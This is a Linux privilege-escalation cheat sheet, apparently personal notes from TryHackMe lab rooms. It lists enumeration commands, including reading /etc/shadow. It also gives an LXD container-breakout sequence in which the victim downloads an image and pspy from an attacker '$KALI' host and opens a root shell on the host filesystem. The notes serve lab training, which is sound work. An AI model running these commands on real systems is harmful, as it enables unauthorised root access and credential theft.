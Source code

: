 # Linux



## **Gathering Info**

```
whoami
```

```
uname -a
```

```
cat /etc/passwd
cat /etc/shadow
```

Check for passwords in environment variables

```
env
```

### Crontab

```
cat /etc/crontab
```

Possible other places crons are running

```
cat /etc/cron.d/
```

## Sudo/SUID/Capabilities <a href="#user-content-sudosuidcapabilities" id="user-content-sudosuidcapabilities"></a>

Run all of these commands then check [https://gtfobins.github.io/](https://gtfobins.github.io/) . They may give different results

**Files with SUID-bit set**

```
sudo -l
```

```
find / -perm -u=s -type f 2> /dev/null 
```

| Finding | Comments                                                                                                                                                          |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| setcap  | If setcap is set that is very interesting checkout room [annie.md](../../../../walkthroughs/tryhackme/annie.md "mention") for an example for privilege escalation |
|         |                                                                                                                                                                   |
|         |                                                                                                                                                                   |

```
getcap -r / 2>/dev/null
```





**Files where group permissions equal to "writable"**

```
find / -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

```
ps aux | grep -v "\[" | grep root
```

```
dpkg -l # debian
```

```
rpm -qa # red hat
```

```
pacman -Qe # arch linux
```

**Look at open ports**

```
ss -ltp
```



### LXD&#x20;

Followed this link on lxd privilege escalation. Did this on [anonymous.md](../../../../walkthroughs/tryhackme/anonymous.md "mention") and [gamingserver.md](../../../../walkthroughs/tryhackme/gamingserver.md "mention")

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI/alpine-v3.18-x86_64-20231111_1929.tar.gz
lxc image import ./alpine-v3.18-x86_64-20231111_1929.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```



## PSPY

script that can monitor linux processes without root access

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```





## Docker Breakout / Privilege Escalation

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation" %}

Look at below rooms of docker breakout

[ultratech.md](../../../../walkthroughs/tryhackme/ultratech.md "mention")

[dogcat.md](../../../../walkthroughs/tryhackme/dogcat.md "mention")



Copy Material from here:

[https://tryhackme.com/room/linprivesc](https://tryhackme.com/room/linprivesc)



**Automated Enumeration Tools**

| Name                          | Link                                                                                                                                                                                           |
| ----------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LinPeas                       | [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| LinEnum                       | [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)                                                                                                                 |
| LES (Linux Exploit Suggester) | [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)                                                                                           |
| Linux Smart Enumeration       | [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)                                                                           |
| Linux Priv Checker:           | [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)                                                                                                       |





## Other Cheat sheets

[https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)

